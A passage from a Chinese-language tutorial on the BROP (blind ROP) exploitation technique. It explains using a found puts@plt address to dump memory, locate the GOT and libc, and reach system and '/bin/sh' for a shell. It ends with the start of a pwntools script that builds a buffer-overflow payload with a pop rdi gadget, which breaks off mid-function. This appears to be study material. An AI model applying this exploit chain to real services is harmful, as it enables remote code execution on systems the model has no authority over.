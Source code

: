 ![image-20220803143649382](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220803143649382.png)

得到puts_plt的地址为0x400545

#### dump 内存

有了 `puts的plt地址`我们就可以调用` puts函数`来打印每一个地址的内容了，我们用它来 `dump` 内存。我们的目的是`getshell`，就需要 `system` 函数和 `/bin/sh` 字符串的地址，这个地址在 `libc` 中。我们获取了`puts的plt地址`，`puts的plt地址`记录的是`puts函数在got表中的地址`，而`puts函数在got表中的地址`是`libc`加载到内存后，`puts函数`执行的真实地址。因此我们通过`puts函数`打印内存，来寻找 `puts` 的 `got`，进而找到`libc`加载到内存后的地址情况。

![延迟绑定](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220803151132582.png)

puts 函数通过 `\x00` 进行截断，并且会在每一次输出末尾加上换行符 `\x0a`，所以有一些特殊情况需要做一些处理，比如单独的 `\x00`、`\x0a` 等，首先当然是先去掉末尾 puts 自动加上的 `\n`，然后如果 recv 到一个 `\n`，说明内存中是 `\x00`，如果 recv 到一个 `\n\n`，说明内存中是 `\x0a`

```python
# -*- coding:utf-8 -*-
from __future__ import print_function
from pwn import *

context.log_level = "DEBUG"

def dump_data(buf_size, stop_gadget, useful_gadget, puts_plt, start_addr=0x400000, end_addr=0x401000):
    pop_rdi_ret = useful_gadget + 9
    result = ""
    while start_addr < end_addr:
        payload = 'a' * buf_size + p64(pop_rdi_ret) + p64(start_addr) + p64(puts_plt) + p64(stop_gadget)
```
